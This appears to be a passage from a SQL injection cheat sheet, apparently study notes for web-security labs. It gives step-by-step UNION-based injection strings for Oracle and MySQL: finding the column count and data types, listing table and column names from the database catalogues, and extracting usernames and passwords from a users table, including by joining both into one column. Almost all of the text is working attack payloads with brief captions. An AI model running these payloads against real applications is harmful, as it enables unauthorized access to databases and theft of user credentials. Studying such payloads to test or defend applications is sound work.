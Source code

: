 Get data from table
```
' UNION SELECT username,password FROM users--
```

#### Listing database contents on Oracle
Determine how many columns are returned from the original query
```
' UNION SELECT NULL,NULL FROM dual--
```
Determine what data types each column holds
```
' UNION SELECT 'a','a' FROM dual--
```
Get table names
```
' UNION SELECT table_name,NULL FROM all_tables--
```
Get column names
```
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='users'--
```
Get data from table
```
' UNION SELECT username,password FROM users--
```

### Retrieving multiple values in a single column on Oracle
```
' UNION SELECT username || '~' || password FROM users--
# The results from the query will be something like "admin~password123"
```

### Retrieving multiple values in a single column on MySql
Determine how many columns are returned from the original query
```
' UNION SELECT NULL,NULL--
```
Determine what data types each column holds
```
' UNION SELECT 1,'a'--
```
Since we are trying to return a string data type query, we will only use the second column as the first one is of integer type

Get table names
```
' UNION SELECT NULL,table_name FROM information_schema.tables--
```
Get column names
```
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'--
```
Get data from tables (concat function combine multiple values within a single column)
```
' UNION SELECT NULL,CONCAT(username,password) FROM users--
```

